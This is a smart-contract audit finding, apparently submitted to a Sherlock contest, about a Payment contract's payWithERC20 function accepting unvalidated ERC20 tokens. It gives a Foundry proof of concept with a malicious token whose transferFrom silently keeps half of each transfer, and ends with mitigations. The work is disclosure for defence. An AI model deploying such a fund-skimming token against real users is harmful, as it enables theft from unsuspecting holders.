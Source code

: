 Creamy Aqua Cyborg

High

# Malicious ERC20 Tokens Can Steal User Funds Through Payment System

### Summary

The lack of token validation in payment functions will cause financial loss for users as malicious ERC20 tokens can steal funds when used in transactions.


### Root Cause

In the Payment contract, the payWithERC20 function accepts any address as a token without validating its legitimacy or behavior. This allows malicious token contracts to be used in transactions, potentially stealing funds or causing other unexpected behavior:

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L23-L33

### Internal Pre-conditions

1. Victim needs to interact with a function payWithERC20
2. The function needs to accept an arbitrary token address as input


### External Pre-conditions

1. A malicious token contract needs to exist on the network

### Attack Path

1. Attacker creates a malicious ERC20 token that implements the standard interface but contains hidden malicious logic
2. The malicious token appears legitimate but its transferFrom function is designed to steal a portion of the transferred funds
3. Attacker convinces victims to use this token for payments in the platform
4. When victims make payments with this token, the malicious transferFrom function
5. Transfers only a portion of the specified amount to the recipient
6. Diverts the remaining funds to the attacker's wallet
7. Returns true to indicate success, hiding the theft


### Impact

Victims suffer direct financial loss when using malicious tokens. For example, if a victim attempts to transfer 100 tokens to another user, the malicious token might only transfer 50 tokens to the intended recipient while stealing the other 50 tokens. This theft occurs silently, with no indication to the victim that anything is wrong.
The severity is high because:

1. Victims lose actual funds
2. The theft is difficult to detect without careful monitoring
3. The platform appears to be functioning normally despite the theft
4. Multiple victims can be affected if the malicious token gains popularity


### PoC

```solidity
// SPDX-License-Identifier: GPL-3.0-or-later
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import "../src/Payment.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract MaliciousToken {
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    function mint(address to, uint256 amount) public {
        balanceOf[to] += amount;
    }

    function approve(address spender, uint256 amount) public returns (bool) {
        allowance[msg.sender][spender] = amount;
        return true;
    }

    // Malicious transferFrom that steals funds
    function transferFrom(
        address from,
        address to,
        uint256 amount
    ) public returns (bool) {
        require(
            allowance[from][msg.sender] >= amount,
            "Insufficient allowance"
        );
        require(balanceOf[from] >= amount, "Insufficient balance");

        // Reduce allowance and balance
        allowance[from][msg.sender] -= amount;
        balanceOf[from] -= amount;

        // Only transfer half the amount, stealing the rest
        uint256 amountToTransfer = amount / 2;
        uint256 amountToSteal = amount - amountToTransfer;

        balanceOf[to] += amountToTransfer;
        balanceOf[address(this)] += amountToSteal; // Steal funds

        return true;
    }
}

contract PaymentValidationTest is Test {
    Payment public payment;
    MaliciousToken public maliciousToken;
    address public victim; // The user who loses funds
    address public recipient; // The intended recipient
    address public attacker; // The malicious token contract itself

    function setUp() public {
        payment = new Payment();
        maliciousToken = new MaliciousToken();

        victim = address(0x1);
        recipient = address(0x2);
        attacker = address(maliciousToken);

        // Fund victim with tokens
        maliciousToken.mint(victim, 1000);

        // Victim approves payment contract
        vm.prank(victim);
        maliciousToken.approve(address(payment), 1000);
    }

    function testMaliciousToken() public {
        // Initial balances
        uint256 initialVictimBalance = maliciousToken.balanceOf(victim);
        uint256 initialRecipientBalance = maliciousToken.balanceOf(recipient);

        // Victim attempts to make a payment
        vm.prank(victim);
        payment.payWithERC20(address(maliciousToken), 100, victim, recipient);

        // Check balances after payment
        uint256 finalVictimBalance = maliciousToken.balanceOf(victim);
        uint256 finalRecipientBalance = maliciousToken.balanceOf(recipient);
        uint256 stolenAmount = maliciousToken.balanceOf(attacker);

        // Victim lost 100 tokens
        assertEq(
            initialVictimBalance - finalVictimBalance,
            100,
            "Victim lost full amount (100 tokens)"
        );

        // But recipient only received 50 tokens
        assertEq(
            finalRecipientBalance - initialRecipientBalance,
            50,
            "Recipient only received half (50 tokens)"
        );

        // The other 50 tokens were stolen by the attacker
        assertEq(
            stolenAmount,
            50,
            "Attacker stole half the amount (50 tokens)"
        );
    }
}
```

### Mitigation

Implement token validation and safety measures:
1. Token Whitelist: Only allow pre-approved tokens to be used for payments.
2. Balance Verification: Check balances before and after transfers to ensure the correct amount was transferred.
3. Contract Verification: Verify the token address is a contract with the expected behavior.